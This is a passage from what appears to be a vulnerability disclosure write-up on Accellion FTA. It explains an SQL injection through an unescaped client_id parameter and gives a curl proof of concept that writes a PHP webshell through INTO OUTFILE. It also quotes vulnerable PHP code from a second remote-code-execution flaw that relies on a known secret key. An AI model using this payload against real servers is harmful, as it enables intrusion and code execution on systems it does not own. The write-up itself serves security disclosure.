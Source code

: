 The parameters passed onto the function `client_properties( ... )`  will be assembled into SQL statements. Among all the functions joining the assembling, `construct_where_clause( ... )` is the most crucial one.  
In the function `construct_where_clause( ... )`, every parameter is protected by the string `mysql_real_escape_string` except for `$client_id`. Judging from the coding style of the source code, it might be a result of oversight. Therefore, SQL Injection can be triggered by sending out corresponding parameters according to the program flow.  

In addition, FTA database user has root privileges with FILE_PRIV option enabled. By exploiting `INTO OUTFILE` and writing their own PHP code to write-enabled directory, user will be able to execute code remotely!  


**PoC**
{% highlight bash %}
$ curl https://<fta>/courier/1000@/security_key2.api -d "aid=1000&user_id=1&password=1&client_id=' OR 1=1 LIMIT 1 INTO OUTFILE '/home/seos/courier/themes/templates/.cc.php' LINES TERMINATED BY 0x3c3f...#"
{% endhighlight %}

The created PHP file will be located at

> http://\<fta\>/courier/themes/templates/.cc.php

<br>

#### Known-Secret-Key leads to Remote Code Execution

In the previous vulnerability, one requirement to execute code remotely is the existence of a write-enabled directory for injecting webshell. But in reality, chances are there is no write-enabled directory available, thus fail to execute code through SQL Injection. But there is another way to help us accomplish RCE.  

The precondition of this vulnerability is **Known-Secret-Key stored in the database**  

This is not a problem, since the database can be accessed with the SQL Injection vulnerability mentioned earlier. Also, although there are some parameter filters in the code, they can be bypassed!  

**/home/seos/courier/sfUtils.api**

{% highlight php startinline %}
$func_call = decrypt( $_POST['fc'] );
$orig_func = '';
if (preg_match( '/(.+)\(.*\)/', $func_call, $func_match )) {
    $orig_func = $func_call;
    $func_call = $func_match[1];
}
$cs_method = array( 'delete_session_cache', 'delete_user_contact', 'valid_password', 'user_password_update_disallowed', 'user_password_format_disallowed', 'get_user_contact_list', 'user_email_verified', 'user_exist_allow_direct_download', 'user_profile_auth' );
if (( !$func_call || !in_array( $func_call, $cs_method ) )) {
    return false;
}
if ($orig_func) {
    $func_call = $orig_func;
}
if ($func_call  == 'get_user_contact_list') {
    if (!$_csinfo['user_id']) {
        return false;
    }
    if (preg_match( '/[\\\/"\*\:\?\<\>\|&]/', $_POST['name'] )) {
        return false;
    }
    $func_call = 'echo(count(' . $func_call . '("' . $_csinfo['user_id'] . '", array("nickname"=>"' . addslashes( $_POST['name'] ) . '"))));';
} else {
    if (isset( $_POST['p1'] )) {
        $func_param = array(  );
        $p_no = 7;
